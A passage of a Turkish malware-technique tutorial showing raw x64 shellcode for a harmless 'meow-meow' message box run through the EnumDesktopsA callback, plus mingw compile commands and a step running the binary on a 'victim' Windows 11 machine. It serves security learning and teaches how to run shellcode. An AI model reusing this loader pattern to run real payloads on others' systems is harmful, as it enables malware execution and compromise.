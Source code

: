 Gördüğünüz gibi, payload’u çalıştırmak için [EnumDesktopsA](https://cocomelonc.github.io/malware/2024/06/12/malware-trick-39.html) tekniğini kullandım.    

Ayrıca her zamanki gibi, basit olması için `meow-meow` messagebox payload’unu kullandım:     

```cpp
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";
```

Doğruluğu kontrol etmek için karşılaştırma ve yazdırma mantığını ekledim.   

### demo

Hadi her şeyi aksiyonda görelim. Derleyelim (benim `kali` makinemde):    

```bash
x86_64-w64-mingw32-gcc -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc
```

![kriptografi](./images/129/2024-07-17_19-21.png){width="80%"}      

Daha sonra, bunu kurbanın makinesinde (`windows 11 x64` benim durumumda) çalıştırın:    

```powershell
.\hack.exe
```

![kriptografi](./images/129/2024-07-17_19-25.png){width="80%"}      
